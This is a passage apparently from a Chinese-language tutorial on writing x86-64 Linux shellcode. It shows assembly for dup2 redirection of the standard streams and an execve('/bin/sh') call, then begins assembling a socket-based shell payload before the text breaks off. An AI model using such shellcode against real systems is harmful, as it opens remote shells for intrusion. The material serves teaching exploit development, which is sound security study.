 上述命令的输出显示在以下截图中：

![](img/00210.jpeg)

现在，让我们构建`dup2`系统调用：

```
mov rdi, rbx
xor rax,rax
add rax, 33
xor rsi, rsi
syscall

xor rax,rax
add rax, 33
inc rsi
syscall

xor rax,rax
add rax, 33
inc rsi
syscall
```

然后，我们添加我们的`execve`系统调用：

```
char * const argv[] = {"sh",NULL, NULL};
execve("/bin/sh", argv, NULL);
return 0;

xor rax, rax
push rax
mov rdx, rsp
mov rbx, 0x68732f6e69622f2f
push rbx
mov rdi, rsp
push rax
push rdi
mov rsi,rsp
add rax, 59
syscall
```

现在，一切都准备就绪；让我们把所有的部分放在一起写成一段代码：

```
global _start

section .text

_start:

;Socket syscall
    xor rax, rax
    add rax, 41
    xor rdi, rdi
    add rdi, 2
    xor rsi, rsi
    inc rsi
    xor rdx, rdx
    syscall

```